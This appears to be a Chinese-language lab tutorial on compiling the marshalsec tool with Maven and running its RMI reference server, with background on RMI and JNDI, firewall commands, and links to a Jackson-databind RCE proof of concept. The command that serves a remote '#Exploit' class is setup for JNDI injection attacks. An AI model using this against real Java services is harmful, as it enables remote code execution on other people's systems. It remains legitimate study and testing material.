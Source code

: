 ## 背景知识

** https://github.com/mbechler/marshalsec   可以快速开启RMI和LDAP服务**


需要下载源码包，使用maven编译为 jar


对于 不会用maven pom.xml build 项目。也可以在这个官方网站https://mvnrepository.com/  搜索jar包



## 安装maven

配置maven源仓库

	<mirrors>
	    <mirror>
	    	<id>nexus-aliyun</id>
	    	<mirrorOf>*</mirrorOf>
	    	<name>Nexus aliyun</name>
	    	<url>http://maven.aliyun.com/nexus/content/groups/public</url>
	    </mirror>
	</mirrors>

默认仓库路径：（win7 C:\Users\Administrator\.m2\repository）

	 <!-- localRepository
	   | The path to the local repository maven will use to store artifacts.
	   |
	   | Default: ${user.home}/.m2/repository
	  <localRepository>/path/to/local/repo</localRepository>


克隆项目，需要自己编译为jar,本项目需要 **java 8** 环境。

	git clone https://github.com/mbechler/marshalsec

maven build 命令：
	
	cd marshalsec

	mvn clean package -DskipTests

如果 build 失败，可在eclipse 导入 maven project 查看eclipse 具体报错,[可能的错误参考](https://blog.csdn.net/imlmy/article/details/8268293)

build 成功后会在当前项目下生成一个 target 文件夹，里面有新生成的jar包。

![](mvn.png)

![](mvn-2.png)


### RMI

在 Java 世界里，有一种技术可以实现“跨虚拟机”的调用，它就是 RMI（Remote Method Invocation，远程方法调用）。例如，服务A 在 JVM1 中运行，服务B 在 JVM2 中运行，服务A 与 服务B 可相互进行远程调用，就像调用本地方法一样，这就是 RMI。在分布式系统中，我们使用 RMI 技术可轻松将服务提供者（Service Provider）与服务消费者（Service Consumer）进行分离，充分体现组件之间的弱耦合，系统架构更易于扩展。

我们可以通过JVM提供的JNDI（Java Naming and Directory Interface，Java 命名与目录接口）这个API方便的发布RMI服务。

host,port,服务名(service)

```rmi://<host>:<port>/<service>```


```rmi://localhost:1099/cal```

	
	# 默认 port 1099

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:8000/#Exploit 1087


JDK对于JNDI的修复

![](jndi-repair.jpg)


	添加出站端口规则
	
	firewall-cmd --zone=public --add-port=222/tcp --permanent

	不关闭服务重载防火墙

	firewall-cmd --reload


https://github.com/cowtowncoder/jackson-compat-minor

[老版本jackson-databind poc](https://github.com/shengqi158/Jackson-databind-RCE-PoC)